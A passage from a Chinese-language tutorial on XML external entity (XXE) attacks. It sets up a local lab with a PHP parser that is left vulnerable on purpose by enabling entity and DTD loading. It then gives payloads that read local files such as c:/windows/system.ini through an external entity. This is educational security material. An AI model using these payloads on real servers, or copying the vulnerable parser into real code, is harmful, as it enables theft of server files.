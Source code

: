 参数实体在我们 Blind XXE 中起到了至关重要的作用
四、我们能做什么

上一节疯狂暗示了 外部实体 ，那他究竟能干什么？

实际上，当你看到下面这段代码的时候，有一点安全意识的小伙伴应该隐隐约约能觉察出什么
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```
既然能读 dtd 那我们是不是能将路径换一换，换成敏感文件的路径，然后把敏感文件读出来？
#实验一：有回显读本地敏感文件(Normal XXE)

这个实验的攻击场景模拟的是在服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件

本地服务器上放上解析 XML 的 php 代码：

示例代码：

xml.php

```
<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```
payload:
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```
结果如下图：

![](https://upload-images.jianshu.io/upload_images/15378294-d361afede265e89e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

但是因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利，那么我么要是换成下面这个文件呢？

如图所示：

![](https://upload-images.jianshu.io/upload_images/15378294-725a212223419be6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

